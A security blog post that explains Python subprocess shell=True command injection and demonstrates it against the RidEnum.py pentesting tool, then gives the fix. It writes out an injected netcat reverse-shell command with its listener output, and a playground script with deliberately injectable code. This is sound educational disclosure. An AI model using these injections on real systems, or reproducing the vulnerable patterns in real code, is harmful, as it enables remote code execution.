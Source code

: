 ![Linkedin](Post%20Images/linkedin.png) [Linkedin](https://www.linkedin.com/in/ryangore/) | ![Github](Post%20Images/github.png) [Github](https://github.com/0v3rride)

# Python's Risky Subprocess Module & Pwning A Pentesting Tool
_____________________________________________________________________

I'd never thought I would have enjoyed reading other individuals source code as much as I do now. There's just something so gratifying about it. Dissecting someone's application, script or program looking for a flaw to leverage or a lapse in logic that can be manipulated is exhilarating. 

Reading source code from other individuals can give you an insight into a lot of things like some of the below items:
  * New syntax and syntactical methods that you never knew existed in a language
  * How to get code to execute by bypassing AV, countermeasures, etc. (if looking at a piece of malware)
  * What not to do when developing an application, script or program of any sort
  * If alcohol was present during development ;)
  
## Python's Risky Subprocess Module
Python is a fantastic language. It's one of my favorites alongside PowerShell, C# and some others. However, like all computer languages, it doesn't come without its flaws or dangerous functions and methods. You can read more about some of those dangerous functions and methods in the below links:
 1. [Dangerous Python Functions Part 1](https://www.kevinlondon.com/2015/07/26/dangerous-python-functions.html)
 2. [Dangerous Python Functions Part 2](https://www.kevinlondon.com/2015/08/15/dangerous-python-functions-pt2.html)
 3. [OpenStack: Use Subprocess Securely](https://security.openstack.org/guidelines/dg_use-subprocess-securely.html)
 4. [OpenStack: Avoiding Shell Injection](https://security.openstack.org/guidelines/dg_avoid-shell-true.html)
 5. [A Medium Blog About Python Shell Injection](https://medium.com/python-pandemonium/a-trap-of-shell-true-in-the-subprocess-module-6db7fc66cdfd)
 6. [Official Python Documentation](https://docs.python.org/3.7/library/subprocess.html#popen-objects)
 
The links above focus more in which a user is prompted to provide input via the `input` function in Python, etc. Leveraging command injection via command-line arguments that will be parsed by a script will be a little trickier, but it's still very simple to do.
 
## The Vulnerability
The vulnerability itself is not super-duper serious as it's a script that's only used by a specific group of individuals and you need access to run it locally. While working on a CTF problem involving SIDs and looking for another tool to compare with Impacket's lookupsid.py script, I came across a tool written by Dave Kennedy (ReL1K) called RidEnum.py. I was interested in how both tools were obtaining the domain and local machine SID, but that's not important. However, I noticed in the source code on the [github page](https://github.com/trustedsec/ridenum/blob/master/ridenum.py) that the tool is using `Subprocess.Popen` objects to execute a shell command. These appear on the following lines:
 * 62
 * 78
 * 111
 * 256

There are at least two arguments that helped me obtain code execution, which was the argument for the remote host's IP address and the `auth` argument. If you look closely, you'll note that the variable `command` which will store the string representation of the command to be executed takes the `auth` (optional username + % + optional password) and the IP argument and then places them into the string using the "old style" string formatting operator (`%`).

### Two things can be taken into consideration at this point (links 3, 4 and 5 above do a great job explaining the problems):

1. The `shell` parameter in both calls are set to `true`. That's a no-no, especially if you allow a user to supply input to your script. In simple terms, this tells Python to execute the string containing the command(s) as if you were doing it in a bash shell.

2. The `command` variable is a **string** variable that contains the entirety of a bash command.

Here's the help documentation for ridenum.
```
Example: ./ridenum.py 192.168.1.50 500 50000 /root/dict.txt /root/user.txt

Usage: ./ridenum.py <server_ip> <start_rid> <end_rid> <optional_username> <optional_password> <optional_password_file> <optional_username_filename>
```
As I said before, doing this via command line arguments is a little trickier. One would expect that all they would have to do is excute the following command `./ridenum.py 10.10.10.10;id; 100 1000 0v3rride`. This is incorrect, because all you're doing is terminating the `ridenum.py` script prematurely without giving it all of the required arguments, calling the bash command `id` and then specifying abunch of junk after the fact that has no meaning in bash (`100 1000 0v3rride`). Take a look at point two again above and notice the keyword 'string'.

Let's execute ridenum and inject a Netcat command to give us a reverse shell.
```
./ridenum.py "1.1.1.1; nc 192.168.1.126 1234 -c bash;" 0 3 "0v3rride" "mysecretpassword"
```

Result:
```
listening on [any] 1234 ...
connect to [192.168.1.126] from (UNKNOWN) [192.168.1.111] 53370
whoami
tester
```

Note the double quotes surrounding the `IP` argument. The string that represents the `IP` argument is evaluated by the `Popen` object. It's similar to how the `Invoke-Expression` cmdlet works in PowerShell. It evaluates a string that's valid syntax and executes it. Also, note how I placed the `nc` command within the `IP` argument. Why do I need two `;`? If I don't add another `;` to terminate, `ridenum.py` tries creating a list of users enumerated during RID cycling, which kills the reverse shell immediately. So placing the second `;` after `-c bash` will keep the reverse shell alive until you exit it.

### More on the `auth` argument
There's an important point I want to address concerning command injection via the `auth` argument. Take a look at line 59 (`command = 'rpcclient -U "%s" %s -c "lsaquery"' % (auth, IP)`) on the GitHub page for ridenum. Note that the data supplied for the `auth` argument is enclosed in additional double-quotes. Thus, the argument will be treated as an actual string rather than an actual bash command. To confirm this, I removed the double quotes that the `auth` argument (`user%pass`) was enclosed in and was able to obtain a reverse shell. So this means that command injection via the `auth` argument being used on line 59 will not be successful. However, on line number 73 (`command = 'rpcclient -U "" %s -c "lookupnames %s"' % (auth, IP)`) a shell command call to invoke rpcclient is made again to use the lookupnames command, but this time the argument given for `auth` is not enclosed in double-quotes. This is where the command will be injected if the `auth` argument is used for injection. Also, take note that this time the `IP` argument is enclosed in double-quotes.

## The Fix
Command/Shell injection via a Python script is that simple. The fix to this is also pretty simple. Get rid of the `shell=True` or explicitly use `shell=False`. Also, breaking down the string referenced by the `command` variable into a list of strings would fix the issue too. Doing this will not treat each string value in subsequent indices as an argument to the string in the first index. You could enclose arguments in literal quotes, but that's not necessary if you implement the two former options.

For example changing `subprocess.Popen(command, stdout=subprocess.PIPE, shell=True)` to `subprocess.Popen(["rpcclient", "-U", "{}".format(auth), "{}".format(ip), "-c", "lsaquery"], stdout=subprocess.PIPE)` removes the chance for command injection. `shell=False` does not have to be explicitly stated as it is a default.


#### You can play with the following source code below to get a better understanding.

```
import subprocess; 
 
def unsafe_ping(server):
  return subprocess.check_output('ping -c 1 %s' % server, shell=True);

print(unsafe_ping("8.8.8.8; id").decode("UTF-8"));


# def safe_ping(server):
#     return subprocess.check_output(['ping', '-c', '1', server], shell=False);

# print(safe_ping("8.8.8.8; id").decode("UTF-8"));


userinput = input("give some input: ");

print("Test 1: shell=true, string command");
print(subprocess.check_output("echo {}".format(userinput), shell=True).decode("UTF-8"));

#Command injection doesn't seem to work on any of the below

print("Test 3: shell=true, list of strings");
print(subprocess.check_output(["echo", "{}".format(userinput)], shell=True).decode("UTF-8"));

print("Test 2: shell=false, string command");
print(subprocess.check_output("echo {}".format(userinput), shell=False).decode("UTF-8"));

print("Test 4: shell=false, list of strings");
print(subprocess.check_output(["echo", "{}".format(userinput)], shell=False).decode("UTF-8"));
```

## Resources
 1. [Dangerous Python Functions Part 1](https://www.kevinlondon.com/2015/07/26/dangerous-python-functions.html)
 2. [Dangerous Python Functions Part 2](https://www.kevinlondon.com/2015/08/15/dangerous-python-functions-pt2.html)
 3. [OpenStack: Use Subprocess Securely](https://security.openstack.org/guidelines/dg_use-subprocess-securely.html)
 4. [OpenStack: Avoiding Shell Injection](https://security.openstack.org/guidelines/dg_avoid-shell-true.html)
 5. [A Medium Blog About Python Shell Injection](https://medium.com/python-pandemonium/a-trap-of-shell-true-in-the-subprocess-module-6db7fc66cdfd)
 6. [Official Python Documentation](https://docs.python.org/3.7/library/subprocess.html#popen-objects)
